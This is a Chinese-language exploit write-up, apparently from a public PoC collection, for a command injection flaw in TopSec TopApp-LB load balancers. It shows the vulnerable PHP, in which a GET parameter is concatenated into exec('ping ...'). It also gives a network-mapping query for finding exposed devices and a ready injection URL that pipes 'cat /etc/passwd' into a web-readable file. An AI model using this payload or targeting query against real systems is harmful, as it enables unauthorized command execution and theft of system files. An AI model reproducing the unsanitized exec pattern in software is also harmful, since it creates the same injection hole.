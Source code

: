# 天融信 TopApp-LB enable_tool_debug.php 远程命令执行漏洞

## 漏洞描述

天融信 TopSec-LB enable_tool_debug.php文件存在 远程命令执行漏洞，通过命令拼接攻击者可以执行任意命令

## 漏洞影响

<a-checkbox checked>天融信 TopSec-LB</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="天融信-TopApp-LB-负载均衡系统"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131402259.png)



漏洞文件为 **enable_tool_debug.php**

```php
<?php
require_once dirname(__FILE__)."/../common/commandWrapper.inc";
error_reporting(E_ALL ^ E_WARNING ^ E_NOTICE);
$val = $_GET['val'];
$tool = $_GET['tool'];
$par = $_GET['par'];
runTool($val,$tool,$par);
?>
```

**commandWrapper.inc** 文件中的 **runTool**

```php
function runTool($val,$tool,$par){
	if($val=="0"){
		UciUtil::setValue('system', 'runtool', 'tool', $tool);
		UciUtil::setValue('system', 'runtool', 'parameter', $par);
		UciUtil::commit('system');
		if($tool=="1"){
			exec('ping '.$par.'>/tmp/tool_result &');
		}else if($tool=="2"){
			exec('traceroute '.$par.'>/tmp/tool_result &');
		}
	}else if($val=="1"){
		$tool=UciUtil::getValue('system', 'runtool', 'tool');
		if($tool=="1"){
			exec('killall ping ');
		}else if($tool=="2"){
			exec('killall traceroute ');
		}
		UciUtil::setValue('system', 'runtool', 'tool', '');
		UciUtil::setValue('system', 'runtool', 'parameter', '');
		UciUtil::commit('system');
		exec('echo "">/tmp/tool_result');
	}
	
}
```

这里设置 var=0，tool=1，再进行命令拼接造成远程命令执行

```plain
/acc/tools/enable_tool_debug.php?val=0&tool=1&par=127.0.0.1' | cat /etc/passwd > ../../test.txt |'
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131402375.png)